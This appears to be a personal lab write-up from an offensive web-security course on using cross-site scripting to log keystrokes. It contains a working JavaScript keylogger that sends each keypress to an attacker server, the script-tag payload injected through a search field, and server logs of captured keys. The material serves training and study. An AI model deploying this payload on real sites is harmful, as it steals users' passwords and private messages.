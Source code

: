 ------------------
#### 5.1.5 Keylogging
At times, attacking the application might not be the best course of action. If the user of the site is the larger target, it might be better to target the user instead. Keylogging is one of the best cross-site scripting methods to target users with as it's very difficult for a user to detect, but very effective in exfiltrating secrets.

Keylogging with XSS is limited though. We are able to keylog by creating an event listener for any keystroke, but it can only be set on the current document. That means if the user is on a different tab or in a different application, we won't be able to intercept their keystrokes. However, if the user is typing a private message or attempting to log in on our target site, we can capture those events.

The JavaScript event for keypresses is _keydown_, which will be passed into the _addEventListener_ function. This function also accepts a callback function to run for each keydown event. Within this function, we'll send the key that was pressed back to our server.

```bash
┌──(root💀gobots)-[05Aug2024 19:14:45]-[/home/kali/SUT/OSWA/xss]
└─# vim xss4.js

# Make sure to change the IP address
┌──(root💀gobots)-[05Aug2024 19:15:09]-[/home/kali/SUT/OSWA/xss]
└─# cat xss4.js 
function logKey(event){
        fetch("http://192.168.45.236/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);

┌──(root💀gobots)-[05Aug2024 19:15:50]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
In the search option on the website drop the payload and hit search
payload
```bash
<script src="http://192.168.45.236:80/xss4.js"></script>
```
![[Pasted image 20240805154411.png]]
Pressing `Search` translates the script into `URL-Encoding`  
![[Pasted image 20240805154534.png]]
A `Get` request should pop in the `python server`
![[Pasted image 20240805154632.png]]
Once that happens hit `Render` and `Simulate keystrokes`

`"Divorce Lawyer Near Me"`
```bash
┌──(root💀gobots)-[05Aug2024 19:41:34]-[/home/kali/SUT/OSWA/xss]                                                                                             
└─# python3 -m http.server 80                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...                                                                                                      
192.168.45.236 - - [05/Aug/2024 19:41:39] "GET /xss4.js HTTP/1.1" 304 -                                                                                       
192.168.240.101 - - [05/Aug/2024 19:41:48] "GET /xss4.js HTTP/1.1" 200 -                                                                                      
192.168.240.101 - - [05/Aug/2024 19:41:48] code 404, message File not found                                                                                   
192.168.240.101 - - [05/Aug/2024 19:41:48] "GET /k?key=D HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:48] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:48] "GET /k?key=i HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:49] code 404, message File not found
```